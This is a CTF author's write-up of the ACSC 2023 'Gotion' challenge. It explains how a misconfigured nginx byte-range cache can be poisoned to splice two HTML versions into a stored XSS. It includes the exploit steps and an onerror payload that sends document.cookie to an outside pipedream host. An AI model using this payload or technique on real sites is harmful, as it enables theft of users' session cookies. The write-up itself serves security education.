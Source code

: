 ```yaml
---
title: "ACSC 2023 Gotion Challenge Author Writeup"
date: 2023-03-12T00:00:00+09:00
url: /posts/2023-03-12-acsc-2023-gotion/
---
```


I made a Gotion Challenge in [ACSC](https://acsc.asia/) (Asian Cyber Security Challenge) 2023.

This is a byte-range cache poisoning XSS challenge.

Challenge Description:

```
Gotion is yet another simple secure note service. You might have seen these kind of applications many times before, but try this one!
```

Challenge Repository: <https://github.com/tyage/acsc2023-gotion>

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">In ACSC 2023, I made a Gotion challenge and promotion video :) Thank you everyone who played! <a href="https://t.co/SN4PXKkKid">pic.twitter.com/SN4PXKkKid</a></p>&mdash; もうダニ by 左京区在中 (@tyage) <a href="https://twitter.com/tyage/status/1629679515529281536?ref_src=twsrc%5Etfw">February 26, 2023</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

# Challenge Details

The challenge has three components: Go web application, nginx and bot.
This is obviously an XSS challenge as the bot has FLAG in the cookie.

The Go app allows users to create simple note pages with only title and body.
The title "Gotion" is a parody of the famous note-taking app Notion and Go.

Users can enter title and body, but they are HTML escaped.
Therefore it is not possible to cause XSS in the notes page.

The key points here are that notes have their own unique URL and Gotion creates static HTML files for each note page like SSG (Static Site Generator).
Users can control the last part of the note URL, but they are only allowed to use restricted characters `[a-zA-Z0-9 ]`.

Looking inside nginx, the config file has a suspicious cache directive.

```nginx
proxy_cache_path /tmp/nginx keys_zone=mycache:10m;
server {
    listen 80;

    location ~ .mp4$ {
        # Smart and Efficient Byte-Range Caching with NGINX
        # https://www.nginx.com/blog/smart-efficient-byte-range-caching-nginx/
        proxy_cache mycache;
        slice              4096; # Maybe it should be bigger?
        proxy_cache_key    $host$uri$is_args$args$slice_range;
        proxy_set_header   Range $slice_range;
        proxy_http_version 1.1;
        proxy_cache_valid  200 206 1h;
        proxy_pass http://app:3000;
    }

    location / {
        proxy_pass http://app:3000;
    }
}
```

This directive caches an mp4 file, but it is not a normal cache, it is a [byte-range cache](https://www.nginx.com/blog/smart-efficient-byte-range-caching-nginx/) which allows us to cache part of the content.
When a client requests `Range: bytes=0-1000`, nginx requests the content with a `Range: bytes=0-4095` header to the origin server and caches the response.
If a client requests `Range: bytes=0-1000` again, nginx can respond quickly because there is a cache of the first 4096 bytes.

This config file also has an error in the location directive.
The `.` in `location ~ .mp4$` does not mean `.` but any character, because this is RegExp.
This directive was made for the video file `howto.mp4` but the file such as `FOOBARmp4` will unfortunately be cached.

# Solution

The solution is byte range cache poisoning, which causes nginx to return HTML containing XSS payload.

This is possible because nginx concatenates segmented caches.
Consider a situation where nginx has the content cache, but only the first 4096 bytes, and the content was updated later.
When a client makes a request without a range header, nginx will retrieve the rest of the updated content and concatenate it with the first cache.

In other words, we can concatenate the sliced parts of two different HTMLs!

The steps to exploit this into XSS are below.

1. Create a note page whose URL ends with `AAAAAAAAAAAAAAAAAmp4` so that it will be cached.

2. Modify the HTML of the note so that the first 4096 bytes end with `<`.

The first 4096 bytes of HTML will look like this

```html
<!DOCTYPE html>
<html lang="en">

<head>
...
          <textarea name="body" class="form-control" placeholder="note" style="height: 300px;">AAAA...AAAAA<
```

3. Cache the first 4096 bytes with a range header `curl http://.../...AAAAAAAAAAAAAAAAAmp4 -H "Range: bytes=0-4095"`.

4. Update the page so that the second 4096 bytes block starts with `img src=x onerror=[payload here]`.

The second block will look like this

```html
img src=x onerror=location=`//eo7x31ojradre3r.m.pipedream.net/?c=${document.cookie}` x=</textarea>
...
</body>

</html>
```

5. Report the URL `http://.../...AAAAAAAAAAAAAAAAAmp4`

6. Wait for the flag and done!

The full solution script is here <https://github.com/tyage/acsc2023-gotion/blob/main/solution/solve.py>.

# Unintended Solution

There is an unintended solution.
I forgot to write an exclusive lock when Go app write a HTML to file.

<https://github.com/tyage/acsc2023-gotion/blob/main/app/main.go#L117>

```go
		f, err := os.OpenFile(noteFilePath, os.O_WRONLY|os.O_TRUNC, 0644)
		if err != nil {
			http.Error(w, "invalid note", http.StatusInternalServerError)
			return
		}

		WriteNote(f, NoteParam{
			Id:    noteId,
			URL:   noteURL,
			Title: title,
			Body:  body,
		})
```

It causes race condition when the app process `WriteNote` at the same time and it was possible to store broken HTML causing XSS.

# Comment

To make a challenge solvable, origin HTTP server must support byte-range request and must *not* return E-Tag header.
Fortunately, Go net/http server meets these requirements therefore I chose the Go server.

Not only nginx but also some other HTTP cache servers and CDNs have this kind of implementation, so I think this concept has a chance to be exploited in a real environment.

I think this is the first PoC of byte-range cache poisoning XSS and I wish the participants have enjoyed the challenge!
